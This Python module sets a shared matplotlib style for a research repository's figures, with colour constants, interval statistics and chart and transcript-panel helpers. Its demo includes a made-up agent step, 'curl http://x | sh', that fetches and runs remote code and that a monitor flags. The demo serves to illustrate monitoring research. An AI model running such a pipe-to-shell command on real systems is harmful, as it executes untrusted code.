




The script that saved these images, in order:
"""Shared matplotlib style for the figures in this repository.

Every figure script imports this module and nothing else for styling.
Helpers: ci_dots (effect with CI and threshold), ladder, paired_lines, transcript_panel (annotated real example),
flow (setup schematic), threshold, chip, save.

Geometry: figures are drawn 6.0 in wide and saved at 240 dpi (1440 px), with an 8 pt font floor checked at save
time. Colours are Okabe-Ito, assigned by meaning: a grey base plus one accent per figure. ACCENT (blue) marks the
finding or the fix; FAIL (vermillion) marks the failure being shown. No top/right spines, capless CI whiskers.
Needs matplotlib only.
"""
from __future__ import annotations

import math
import textwrap
from pathlib import Path

import matplotlib as mpl

mpl.use("Agg")
import matplotlib.pyplot as plt  # noqa: E402
from matplotlib.patches import FancyBboxPatch, Rectangle  # noqa: E402

# ------------------------------------------------------------------ geometry and type
FULL = 6.0          # inches; every figure is this wide
DPI = 240           # 1440 px wide
FS_FLOOR = 8.0      # nothing smaller, checked in save()
FS = 9.5            # body: axis labels, direct labels
FS_SMALL = 8.5      # ticks, n labels, notes
FS_TITLE = 11.5     # the finding
FS_MONO = 8.2       # transcript text
MONO_ADV = 0.602    # advance width of Menlo / DejaVu Sans Mono in em
SANS_ADV = 0.50     # mean advance of Helvetica / Arial / DejaVu Sans lower-case text, in em (slightly generous)

# ------------------------------------------------------------------ colours (Okabe-Ito, by meaning)
INK = "#1A1A1A"      # text, primary strokes
MUTED = "#5F5F5F"    # secondary text
BASE = "#8C8C8C"     # the grey base: every mark that is not the point of the figure
LIGHT = "#CFCFCF"    # recessive marks, per-item lines
RULE = "#E3E3E3"     # row rules, grid
PAPER = "#F6F6F4"    # panel fill for quoted material
ACCENT = "#0072B2"   # blue: the finding / the fix
ACCENT_TINT = "#DCEAF4"
FAIL = "#D55E00"     # vermillion: the failure being shown
FAIL_TINT = "#FBE6D8"
AMBER = "#E69F00"    # third category only when the design needs one (always directly labelled)
# The full Okabe-Ito (2008) set, for the rare figure that needs more than base + accent. Order = order of use.
OKABE_ITO = ["#0072B2", "#D55E00", "#E69F00", "#009E73", "#56B4E9", "#CC79A7", "#F0E442", "#000000"]
STATE = {            # verdict chips in transcript panels
    "miss": (FAIL, "white"), "catch": (ACCENT, "white"), "ok": ("white", MUTED), "neutral": (LIGHT, INK),
}


def apply() -> None:
    """Set rcParams. Call once at the top of a figure script."""
    mpl.rcParams.update({
        "font.family": "sans-serif",
        "font.sans-serif": ["Arial", "Helvetica", "DejaVu Sans"],
        "font.monospace": ["Menlo", "DejaVu Sans Mono"],
        "font.size": FS,
        "axes.titlesize": FS, "axes.titleweight": "bold", "axes.titlelocation": "left", "axes.titlepad": 6,
        "axes.labelsize": FS, "axes.labelcolor": INK, "axes.edgecolor": MUTED, "axes.linewidth": 0.7,
        "axes.spines.top": False, "axes.spines.right": False, "axes.grid": False,
        "xtick.labelsize": FS_SMALL, "ytick.labelsize": FS_SMALL, "xtick.color": MUTED, "ytick.color": MUTED,
        "xtick.labelcolor": INK, "ytick.labelcolor": INK,
        "xtick.major.width": 0.7, "ytick.major.width": 0.7, "xtick.major.size": 3, "ytick.major.size": 3,
        "axes.prop_cycle": mpl.cycler(color=OKABE_ITO),   # only reached if a script forgets to pick by meaning
        "text.parse_math": False,   # transcripts are full of $ signs
        "legend.frameon": False, "lines.linewidth": 1.4, "lines.markersize": 6,
        "figure.dpi": 120, "savefig.dpi": DPI, "figure.facecolor": "white", "savefig.facecolor": "white",
    })


# ------------------------------------------------------------------ small statistics and text helpers
def wilson(k: int, n: int, z: float = 1.959964) -> tuple[float, float]:
    """Wilson score 95% interval for k/n, as fractions."""
    if n == 0:
        return 0.0, 1.0
    p = k / n
    d = 1 + z * z / n
    c = p + z * z / (2 * n)
    h = z * math.sqrt(p * (1 - p) / n + z * z / (4 * n * n))
    return max(0.0, (c - h) / d), min(1.0, (c + h) / d)


def trim(s: str, n: int, where: str = "end") -> str:
    """Shorten an exact quote to about n characters, marking every cut with […]. Whitespace is collapsed."""
    s = " ".join(s.split())
    if len(s) <= n:
        return s
    if where == "middle":
        a = (n - 5) // 2
        return s[:a].rstrip() + " […] " + s[-a:].lstrip()
    if where == "start":
        return "[…] " + s[-(n - 4):].lstrip()
    return s[: n - 4].rstrip() + " […]"


def excerpt(s: str, needle: str, before: int = 60, after: int = 120) -> str:
    """Exact window around `needle` in s, with […] on each cut side. Raises if the needle is absent."""
    flat = " ".join(s.split())
    i = flat.index(" ".join(needle.split()))
    a, b = max(0, i - before), min(len(flat), i + len(needle) + after)
    return ("[…] " if a > 0 else "") + flat[a:b].strip() + (" […]" if b < len(flat) else "")


def wrap_mono(s: str, width_in: float, fs: float = FS_MONO) -> list[str]:
    n = max(10, int(width_in / (MONO_ADV * fs / 72)))
    out: list[str] = []
    for para in s.split("\n"):
        out += textwrap.wrap(para, n, break_long_words=True, break_on_hyphens=False) or [""]
    return out


def wrap_sans(s: str, width_in: float, fs: float = FS_SMALL) -> list[str]:
    n = max(10, int(width_in / (SANS_ADV * fs / 72)))
    out: list[str] = []
    for para in s.split("\n"):
        out += textwrap.wrap(para, n, break_long_words=False) or [""]
    return out


# ------------------------------------------------------------------ figure scaffolding
def figure(height: float, top: float = 0.62, **kw):
    """Figure FULL wide with `top` inches reserved for the finding title. Returns (fig, ax or axes)."""
    fig, ax = plt.subplots(figsize=(FULL, height), **kw)
    fig.subplots_adjust(top=1 - top / height)
    return fig, ax


def finding(fig, title: str, sub: str | None = None) -> None:
    """The title states the finding (bold, left); `sub` says what is plotted, in grey, on the next line."""
    h = fig.get_figheight()
    fig.text(0.012, 1 - 0.08 / h, title, ha="left", va="top", fontsize=FS_TITLE, fontweight="bold", color=INK,
             linespacing=1.15)
    if sub:
        nl = title.count("\n") + 1
        fig.text(0.012, 1 - (0.10 + 0.205 * nl) / h, sub, ha="left", va="top", fontsize=FS_SMALL, color=MUTED,
                 linespacing=1.2)


def threshold(ax, v: float, label: str, axis: str = "x", ls: str = "--", color: str = INK, pos: float = 0.98,
              side: str = "after", va: str = "top", **kw) -> None:
    """A pre-registered bar drawn as a labelled line (the label sits on the line, never in a legend)."""
    if axis == "x":
        ax.axvline(v, ls=ls, lw=1.0, color=color, zorder=1)
        ha = "left" if side == "after" else "right"
        ax.annotate(label, (v, pos), xycoords=("data", "axes fraction"), xytext=(4 if ha == "left" else -4, 0),
                    textcoords="offset points", ha=ha, va=va, fontsize=FS_SMALL, color=color, clip_on=False, **kw)
    else:
        ax.axhline(v, ls=ls, lw=1.0, color=color, zorder=1)
        va = "bottom" if side == "after" else "top"
        ax.annotate(label, (pos, v), xycoords=("axes fraction", "data"), xytext=(0, 3 if va == "bottom" else -3),
                    textcoords="offset points", ha="right", va=va, fontsize=FS_SMALL, color=color, **kw)


def ci_dots(ax, rows: list[dict], xlabel: str, xlim: tuple[float, float], scale: float = 100.0,
            label_fmt: str = "{est:.0f}%", groups: bool = True, group_x: float = 0.0) -> None:
    """Horizontal dot-and-interval chart with direct labels. The headline 'show it's real' form.

    rows (top to bottom): dict(label, est, lo, hi, n='11/59', hl=None|'accent'|'fail', group='Dev set' optional,
    side='left' optional). est/lo/hi are fractions (multiplied by `scale`). A row with est None draws a gap.
    """
    y = 0.0
    ys, labs = [], []
    last_group = None
    for r in rows:
        g = r.get("group")
        if groups and g and g != last_group:
            y -= 0.55 if last_group is not None else 0.0
            ax.text(group_x, y + 0.62, g, transform=ax.get_yaxis_transform(), ha="left", va="center",
                    fontsize=FS_SMALL, color=MUTED, fontweight="bold", zorder=6,
                    bbox=dict(fc="white", ec="none", pad=1.2))
            last_group = g
            y -= 0.25
        col = {"accent": ACCENT, "fail": FAIL, "amber": AMBER}.get(r.get("hl"), BASE)
        e, lo, hi = r["est"] * scale, r["lo"] * scale, r["hi"] * scale
        ax.plot([lo, hi], [y, y], color=col, lw=2.2, solid_capstyle="butt", zorder=2)
        ax.plot([e], [y], "o", ms=8, color=col, mec="white", mew=1.0, zorder=3)
        txt = label_fmt.format(est=e, lo=lo, hi=hi).replace("-", "\u2212")   # typographic minus
        if r.get("n"):
            txt += f"  ({r['n']})"
        left = r.get("side") == "left"      # put the label left of the interval when a threshold line sits to its right
        ax.annotate(txt, (lo if left else hi, y), xytext=(-6 if left else 6, 0), textcoords="offset points",
                    ha="right" if left else "left", va="center",
                    fontsize=FS_SMALL, color=INK if r.get("hl") else MUTED,
                    fontweight="bold" if r.get("hl") else "normal", zorder=6,
                    bbox=dict(fc="white", ec="none", pad=1.2))   # a threshold line never runs through a label
        ys.append(y)
        labs.append(r["label"])
        y -= 1.0
    ax.set_yticks(ys)
    ax.set_yticklabels(labs, fontsize=FS)
    for t, r in zip(ax.get_yticklabels(), rows):
        if r.get("hl"):
            t.set_fontweight("bold")
    ax.tick_params(axis="y", length=0)
    ax.spines["left"].set_visible(False)
    ax.set_ylim(y + 0.4, 0.95)
    ax.set_xlim(*xlim)
    ax.set_xlabel(xlabel)
    ax.spines["bottom"].set_bounds(max(xlim[0], 0), xlim[1])


def ladder(ax, x, y, lo, hi, labels, hl: int | None = None, connect: bool = True, scale: float = 100.0,
           label_dy: float = 9, hl_color: str = ACCENT) -> None:
    """A dose or model ladder: one dot with CI per rung, labelled at the dot, optional connecting line."""
    ys = [v * scale for v in y]
    if connect:
        ax.plot(x, ys, "-", color=LIGHT, lw=1.4, zorder=1)
    for i, (xi, yi, l, h, lab) in enumerate(zip(x, ys, lo, hi, labels)):
        col = hl_color if i == hl else BASE
        ax.plot([xi, xi], [l * scale, h * scale], color=col, lw=2.0, solid_capstyle="butt", zorder=2)
        ax.plot([xi], [yi], "o", ms=8, color=col, mec="white", mew=1.0, zorder=3)
        if lab:
            ax.annotate(lab, (xi, h * scale), xytext=(0, label_dy), textcoords="offset points", ha="center",
                        va="bottom", fontsize=FS_SMALL, color=INK if i == hl else MUTED,
                        fontweight="bold" if i == hl else "normal")


def paired_lines(ax, before, after, hl=None, xlabels=("Before", "After"), jitter: float = 0.0,
                 hl_color: str = ACCENT, lw: float = 1.0) -> None:
    """One line per item from its 'before' to its 'after' value. hl is a list of bools (highlighted items)."""
    import random
    rnd = random.Random(0)
    hl = hl or [False] * len(before)
    for b, a, h in sorted(zip(before, after, hl), key=lambda t: t[2]):
        j0, j1 = (rnd.uniform(-jitter, jitter), rnd.uniform(-jitter, jitter)) if jitter else (0, 0)
        ax.plot([0, 1], [b + j0, a + j1], "-", color=hl_color if h else LIGHT, lw=lw * (1.5 if h else 1),
                alpha=0.9 if h else 0.8, zorder=3 if h else 2, marker="o", ms=4,
                mfc=hl_color if h else LIGHT, mec="white", mew=0.5)
    ax.set_xticks([0, 1])
    ax.set_xticklabels(xlabels, fontsize=FS)
    ax.set_xlim(-0.25, 1.25)
    ax.tick_params(axis="x", length=0)


def chip(ax, x: float, y: float, text: str, state: str = "neutral", fs: float = FS_SMALL, w: float | None = None,
         ha: str = "left"):
    """A small rounded verdict chip (axes in inches)."""
    fc, tc = STATE[state]
    w = w or (len(text) * SANS_ADV * 1.12 * fs / 72 + 0.16)
    h = fs / 72 * 1.75
    x0 = x if ha == "left" else x - w
    ax.add_patch(FancyBboxPatch((x0, y - h / 2), w, h, boxstyle="round,pad=0,rounding_size=0.05",
                                fc=fc, ec=MUTED if state == "ok" else fc, lw=0.7, zorder=3))
    ax.text(x0 + w / 2, y - 0.004, text, ha="center", va="center", fontsize=fs, color=tc, fontweight="bold",
            zorder=4)
    return w


def transcript_panel(steps: list[dict], columns: list[str], title: str, sub: str | None = None,
                     text_frac: float = 0.50, tag_w: float = 0.62, footer: str | None = None,
                     text_head: str = "What the agent did (exact text)", lead: float = 0.0):
    """Annotated real example: one row per step, the exact text on the left, one verdict column per reader.

    steps: dict(tag='Step 5', text='exact quote, already trimmed with […]', hot=False,
                verdicts=[dict(chip='0', state='miss'|'catch'|'ok'|'neutral', quote='exact rationale excerpt')],
                mono=True)
    A step with collapsed=True draws a single grey summary line (text) with its chips and no quotes.
    Returns (fig, ax). Axes units are inches from the top-left, so callers can add annotations.
    lead > 0 reserves that many inches between the title block and the table for a setup schematic: draw it with
    flow(ax, nodes, y=ax.lead_y, h=lead - 0.12, x0=0.08, x1=FULL - 0.08).
    """
    title_h = 0.12 + 0.205 * (title.count("\n") + 1) + (0.165 * (sub.count("\n") + 1) if sub else 0) + 0.10
    pad, lh_m, lh_s = 0.095, FS_MONO / 72 * 1.36, FS_SMALL / 72 * 1.30
    margin = 0.08
    inner = FULL - 2 * margin
    text_w = inner * text_frac - tag_w
    col_w = inner * (1 - text_frac) / len(columns)
    chip_h = FS_SMALL / 72 * 1.75
    rows = []
    for s in steps:
        mono = s.get("mono", True)
        tl = (wrap_mono if mono else wrap_sans)(s["text"], text_w - 0.14, FS_MONO if mono else FS_SMALL)
        vl = [wrap_sans(v.get("quote", ""), col_w - 0.16) if v.get("quote") else [] for v in s["verdicts"]]
        h_text = len(tl) * (lh_m if mono else lh_s)
        h_v = max((chip_h + 0.05 + len(q) * lh_s) if q else chip_h for q in vl) if vl else 0
        rows.append((s, tl, vl, max(h_text, h_v) + 2 * pad))
    lead_y = title_h
    title_h += lead
    head_h = 0.30
    foot_h = (0.10 + 0.16 * len(wrap_sans(footer, inner))) if footer else 0.04
    H = title_h + head_h + sum(r[3] for r in rows) + foot_h
    fig = plt.figure(figsize=(FULL, H))
    ax = fig.add_axes([0, 0, 1, 1])
    ax.set_xlim(0, FULL)
    ax.set_ylim(H, 0)
    ax.axis("off")
    ax.lead_y = lead_y
    finding(fig, title, sub)
    y = title_h
    x_text = margin + tag_w
    x_cols = [margin + inner * text_frac + i * col_w for i in range(len(columns))]
    ax.text(x_text + 0.07, y + head_h / 2, text_head, fontsize=FS_SMALL, color=MUTED, va="center", fontweight="bold")
    for xc, c in zip(x_cols, columns):
        ax.text(xc + 0.08, y + head_h / 2, c, fontsize=FS_SMALL, color=MUTED, va="center", fontweight="bold")
    y += head_h
    ax.plot([margin, FULL - margin], [y, y], color=MUTED, lw=0.8)
    for s, tl, vl, h in rows:
        mono = s.get("mono", True)
        if s.get("hot"):
            ax.add_patch(Rectangle((margin, y), inner, h, fc=s.get("hot_fill", FAIL_TINT), ec="none", zorder=0))
        ax.text(margin + 0.05, y + pad + 0.02, s["tag"], fontsize=FS_SMALL, color=INK if s.get("hot") else MUTED,
                va="top", fontweight="bold")
        ax.text(x_text + 0.07, y + pad, "\n".join(tl), fontsize=FS_MONO if mono else FS_SMALL,
                family="monospace" if mono else "sans-serif", color=MUTED if s.get("collapsed") else INK, va="top",
                linespacing=1.18 if mono else 1.22, style="normal")
        for xc, v, q in zip(x_cols, s["verdicts"], vl):
            chip(ax, xc + 0.08, y + pad + chip_h / 2, v["chip"], v.get("state", "neutral"))
            if q:
                ax.text(xc + 0.08, y + pad + chip_h + 0.05, "\n".join(q), fontsize=FS_SMALL, color=INK, va="top",
                        linespacing=1.22)
        y += h
        ax.plot([margin, FULL - margin], [y, y], color=RULE, lw=0.7)
    for xc in x_cols:
        ax.plot([xc, xc], [title_h + 0.04, y], color=RULE, lw=0.7)
    if footer:
        ax.text(margin + 0.05, y + 0.08, "\n".join(wrap_sans(footer, inner)), fontsize=FS_SMALL, color=MUTED,
                va="top", linespacing=1.25)
    return fig, ax


def flow(ax, nodes: list[dict], y: float, h: float, x0: float, x1: float, gap: float = 0.22) -> list[tuple]:
    """A one-row setup schematic: boxes left to right joined by arrows (axes in inches, y down).

    nodes: dict(head='Agent', body='one line of what it does', hl=None|'accent'|'fail'). Returns the box rects.
    """
    n = len(nodes)
    w = (x1 - x0 - gap * (n - 1)) / n
    rects = []
    for i, nd in enumerate(nodes):
        x = x0 + i * (w + gap)
        ec = {"accent": ACCENT, "fail": FAIL}.get(nd.get("hl"), MUTED)
        fc = {"accent": ACCENT_TINT, "fail": FAIL_TINT}.get(nd.get("hl"), PAPER)
        ax.add_patch(FancyBboxPatch((x, y), w, h, boxstyle="round,pad=0,rounding_size=0.06", fc=fc, ec=ec,
                                    lw=1.0 if nd.get("hl") else 0.7))
        ax.text(x + w / 2, y + 0.09, nd["head"], ha="center", va="top", fontsize=FS_SMALL, fontweight="bold",
                color=INK)
        body = "\n".join(sum((wrap_sans(p, w - 0.12) for p in nd["body"].split("\n")), []))
        ax.text(x + w / 2, y + 0.30, body, ha="center", va="top", fontsize=FS_FLOOR + 0.2, color=INK,
                linespacing=1.25)
        if i < n - 1:
            ax.annotate("", (x + w + gap - 0.02, y + h / 2), (x + w + 0.02, y + h / 2),
                        arrowprops=dict(arrowstyle="-|>", color=MUTED, lw=1.0, shrinkA=0, shrinkB=0))
        rects.append((x, y, w, h))
    return rects


def save(fig, out_dir, name: str) -> Path:
    """Write <name>.png at 240 dpi after checking the font floor. No tight bbox: width stays exactly FULL."""
    fig.canvas.draw()
    small = sorted({(round(t.get_fontsize(), 1), t.get_text()[:30]) for t in fig.findobj(mpl.text.Text)
                    if t.get_text().strip() and t.get_visible() and t.get_fontsize() < FS_FLOOR - 1e-6})
    assert not small, f"{name}: text below {FS_FLOOR} pt: {small[:5]}"
    assert abs(fig.get_figwidth() - FULL) < 1e-6, f"{name}: width must be {FULL} in"
    r = fig.canvas.get_renderer()
    W, Hh = fig.get_figwidth() * fig.dpi, fig.get_figheight() * fig.dpi
    over = []
    for t in fig.findobj(mpl.text.Text):
        if t.get_text().strip() and t.get_visible():
            bb = t.get_window_extent(r)
            if bb.x1 > W + 1 or bb.x0 < -1 or bb.y0 < -1 or bb.y1 > Hh + 1:
                over.append((t.get_text()[:40], [round(v) for v in (bb.x0, bb.y0, bb.x1, bb.y1)], (round(W), round(Hh))))
    assert not over, f"{name}: text runs off the canvas: {over[:5]}"
    p = Path(out_dir) / f"{name}.png"
    fig.savefig(p, dpi=DPI)
    plt.close(fig)
    return p


if __name__ == "__main__":      # smoke test with made-up numbers: one figure per helper
    import sys
    out = Path(sys.argv[1] if len(sys.argv) > 1 else ".")
    apply()
    rows = [dict(label="Baseline", est=11 / 59, lo=wilson(11, 59)[0], hi=wilson(11, 59)[1], n="11/59"),
            dict(label="Fix", est=0.0, lo=0.0, hi=wilson(0, 57)[1], n="0/57", hl="accent")]
    fig, ax = figure(2.4, top=0.80)
    finding(fig, "DEMO: the fix removes the misses", "Made-up numbers. Dots with Wilson 95% intervals.")
    ci_dots(ax, rows, "Uncaught (%)", (-2, 60))
    threshold(ax, 10, "bar: 10%", pos=1.0, va="bottom")
    fig.subplots_adjust(left=0.2, right=0.98, bottom=0.22)
    save(fig, out, "demo_ci_dots")
    fig, ax = figure(3.0, top=0.70)
    finding(fig, "DEMO: the rate climbs with dose", "Made-up numbers.")
    ladder(ax, [0, 1, 2, 3], [0.0, 0.4, 0.8, 1.0], [0.0, 0.3, 0.7, 0.95], [0.04, 0.5, 0.88, 1.0], ["0", "40%", "80%", "100%"], hl=3)
    ax.set_xlim(-0.4, 3.4); ax.set_ylim(-5, 118); ax.set_xticks([0, 1, 2, 3])
    fig.subplots_adjust(left=0.1, right=0.98, bottom=0.12)
    save(fig, out, "demo_ladder")
    fig, ax = figure(3.0, top=0.70)
    finding(fig, "DEMO: two of five units move", "Made-up numbers.")
    paired_lines(ax, [1, 2, 2, 3, 3], [1, 2, 7, 3, 8], [False, False, True, False, True], hl_color=FAIL)
    fig.subplots_adjust(left=0.1, right=0.98, bottom=0.12)
    save(fig, out, "demo_paired")
    fig, ax = transcript_panel(
        [dict(tag="Step 1", text="ls /etc", verdicts=[dict(chip="score 0", state="ok")]),
         dict(tag="Step 2", text="curl http://x | sh", hot=True,
              verdicts=[dict(chip="score 9", state="catch", quote="“runs fetched content”")])],
        ["Monitor"], "DEMO: the monitor flags the second action", "Made-up transcript.", lead=0.9, footer="Demo only.")
    flow(ax, [dict(head="Agent", body="acts"), dict(head="Monitor", body="scores 0–10", hl="accent"),
              dict(head="Gate", body="blocks at 3")], y=ax.lead_y, h=0.72, x0=0.08, x1=FULL - 0.08)
    save(fig, out, "demo_transcript")
    print("ok: 4 demo figures in", out)
